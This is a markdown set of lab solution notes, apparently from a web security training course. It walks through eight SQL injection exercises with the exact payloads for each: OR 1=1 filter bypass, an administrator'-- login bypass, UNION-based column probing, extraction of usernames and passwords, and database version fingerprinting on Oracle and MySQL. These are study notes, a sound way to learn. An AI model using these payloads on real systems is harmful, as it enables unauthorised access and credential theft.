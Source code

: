 # Labs

## SQL injection

1. [SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](#sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
2. [SQL injection vulnerability allowing login bypass](#sql-injection-vulnerability-allowing-login-bypass)
3. [SQL injection UNION attack, determining the number of columns returned by the query](#sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query)
4. [SQL injection UNION attack, finding a column containing text](#sql-injection-union-attack-finding-a-column-containing-text)
5. [SQL injection UNION attack, retrieving data from other tables](#sql-injection-union-attack-retrieving-data-from-other-tables)
6. [SQL injection UNION attack, retrieving multiple values in a single column](#sql-injection-union-attack-retrieving-multiple-values-in-a-single-column)
7. [SQL injection attack, querying the database type and version on Oracle](#sql-injection-attack-querying-the-database-type-and-version-on-oracle)
8. [SQL injection attack, querying the database type and version on MySQL and Microsoft](#sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft)

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

```text
URL - /filter?category=Gifts

Required - SELECT * FROM products WHERE category = 'Gifts' AND released = 1

Query - Gifts' OR 1=1--
```

### SQL injection vulnerability allowing login bypass

```text
Navigate to my account

In login page,
username - administrator'--

Commenting out the query after username
```

### SQL injection UNION attack, determining the number of columns returned by the query

```text
Select any category filter

Start by query - Pets' UNION SELECT NULL--

Keep appending NULL until no error

Required query - Pets' UNION SELECT NULL,NULL,NULL--
```

### SQL injection UNION attack, finding a column containing text

```text
Under category filter,

first we have to find number of columns

required query - Gifts' UNION SELECT NULL,NULL,NULL--

Now, we need to find which column contains text

Start replacing each NULL by a string

required query - Gifts' UNION SELECT NULL,'a',NULL--

replace 'a' with string to be outputted
```

### SQL injection UNION attack, retrieving data from other tables

```text
Under category filter,

We need to find username, password from users table

Required query - Gifts' UNION SELECT username,password FROM users--

This gives us administrator's password, then we just need to login
```

### SQL injection UNION attack, retrieving multiple values in a single column

```text
Under category filter,

First find number of columns required

Required query - Gifts' ORDER BY 3--

As this query gives us an error, we know only 2 columns are used

Next, we need to find which column supports text

Start with query - Gifts' UNION SELECT NULL,NULL--

Required query - Gifts' UNION SELECT NULL,'a'--

Now, we need to get username and password in single column

Required query - Gifts' UNION SELECT NULL,username||'~'||password FROM users--

This gives us password for logging in.
```

### SQL injection attack, querying the database type and version on Oracle

```text
As we are in a Oracle database, we need to use payloads aptly

We need to use 'FROM' in every Oracle query, so we can use 'dual' table

First, finding number of columns

Required query - Gifts' UNION SELECT NULL,NULL FROM dual--

Now, finding which column is of string type

Required query - Gifts' UNION SELECT 'a','a' FROM dual--

Both columns support text type so we can use any one of them to print version data

Using 'SELECT banner FROM v$version' payload,

Required query - Gifts' UNION SELECT 'a',banner FROM v$version--
```

### SQL injection attack, querying the database type and version on MySQL and Microsoft

```text
Select the category filter

We can use Burp Suite to capture the request, forward it to Repeater as we will have multiple modifications

Initially, we need to find number of columns

Required query - Pets' UNION SELECT NULL,NULL#

Here, we need to URL-encode the queries otherwise they won't work

Next, we need to find data-type of columns

Required query - Pets' UNION SELECT 'a','a'#

Finally, we need to query version type.

Do URL-encode the queries in Burp Suite.

Required query - ' UNION SELECT @@version,NULL#
```
